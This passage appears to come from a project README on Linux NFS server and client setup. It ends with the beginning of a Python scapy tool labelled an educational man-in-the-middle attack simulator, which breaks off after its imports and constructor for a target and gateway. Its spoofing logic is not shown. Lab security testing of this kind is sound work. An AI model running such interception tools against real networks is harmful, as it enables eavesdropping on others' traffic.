 ```bash
sudo chown -R nfsnobody:nfsnobody /shared/
sudo chmod 755 /shared/common
sudo chmod 775 /shared/projects
sudo chmod 644 /shared/backups

# Configure NFS security
sudo nano /etc/default/nfs-kernel-server
# Security enhancements:
RPCNFSDOPTS="--nfs-version 4 --debug --syslog"
RPCMOUNTDOPTS="--manage-gids --debug"

# Apply NFS configuration
sudo exportfs -a
sudo systemctl restart nfs-kernel-server
sudo systemctl enable nfs-kernel-server
```

#### **Client-Side NFS Mounting**
```bash
# Install NFS client utilities
sudo apt install nfs-common -y

# Create mount points
sudo mkdir -p /mnt/nfs/{common,projects}

# Configure automatic mounting
sudo nano /etc/fstab
10.0.2.10:/shared/common  /mnt/nfs/common  nfs4  defaults,_netdev  0  0
10.0.2.10:/shared/projects /mnt/nfs/projects nfs4  defaults,_netdev  0  0

# Test NFS connectivity
sudo mount -a
df -h | grep nfs
```

### 🔍 My Contribution: Security Testing with MITM Simulation

#### **Network Security Assessment Tool**
```python
#!/usr/bin/env python3
"""
Advanced Man-in-the-Middle Attack Simulation
Educational Security Testing Tool
Author: Chetan Pavan Sai Nannapaneni
"""

import scapy.all as scapy
import time
import argparse
import sys
import threading
from scapy.layers import http

class MITMSimulator:
    def __init__(self, target_ip, gateway_ip, interface):
        self.target_ip = target_ip
        self.gateway_ip = gateway_ip
        self.interface = interface
        self.original_mac = {}
        self.is_running = False
        
    def get_mac_address(self, ip):
```